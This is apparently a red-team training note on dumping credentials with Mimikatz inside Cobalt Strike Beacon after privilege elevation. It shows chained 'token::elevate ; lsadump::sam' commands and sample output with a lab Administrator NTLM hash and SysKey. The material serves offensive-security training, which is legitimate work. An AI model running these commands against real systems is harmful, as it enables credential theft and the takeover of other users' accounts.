 ```yaml
---
description: 09/09/2025
---
```


# ✅ Obtaining Credentials

Once we are elevated on a machine, we can obtain credential material for other users who are authenticated.

Credentials can come in the form of plaintext (username & password), hashes (NTLM, AES, DCC, NetNTLM, etc) as well as Kerberos tickets.

This chapter will review how to dump credentials in various formats.

{% hint style="info" %}
Stay tuned, the **User Impersonation** chapter will show how these different credential forms can be leveraged.
{% endhint %}

## Beacon + Mimikatz

<mark style="color:yellow;">Cobalt Strike has a built-in version of Mimikatz</mark> that we can use to extract various credential types. However, <mark style="color:yellow;">there are some differences regarding how it behaves in Beacon compared to the console version</mark>.

{% hint style="info" %}
Each time that you execute Mimikatz in Beacon, it does so in a new temporary process which is then destroyed. This means that you cannot run two "related" commands such as:

```
beacon> mimikatz token::elevate
beacon> mimikatz lsadump::sam
```
{% endhint %}

#### How to get around this...

We can chain multiple commands together by separating them with a semi-colon:

```
beacon> mimikatz token::elevate ; lsadump::sam

Token Id  : 0
User name : 
SID name  : NT AUTHORITY\SYSTEM

552	{0;000003e7} 1 D 28330     	NT AUTHORITY\SYSTEM	S-1-5-18	(04g,21p)	Primary
 -> Impersonated !
 * Process Token : {0;000d4499} 2 F 3234168   	DEV\bfarmer	S-1-5-21-569305411-121244042-2357301523-1104	(15g,24p)	Primary
 * Thread Token  : {0;000003e7} 1 D 3295086   	NT AUTHORITY\SYSTEM	S-1-5-18	(04g,21p)	Impersonation (Delegation)
Domain : WKSTN-2
SysKey : b9dc7de8b1972237bbbd7f82d970f79a
Local SID : S-1-5-21-2281971671-4135076198-2136761646

SAMKey : b0664279732686cfbb4b788c078fea82

RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: fc525c9683e8fe067095ba2ddc971889
    lm  - 0: 91b6e660bcac036ae7ab67a3d383bc82
    ntlm- 0: fc525c9683e8fe067095ba2ddc971889
```
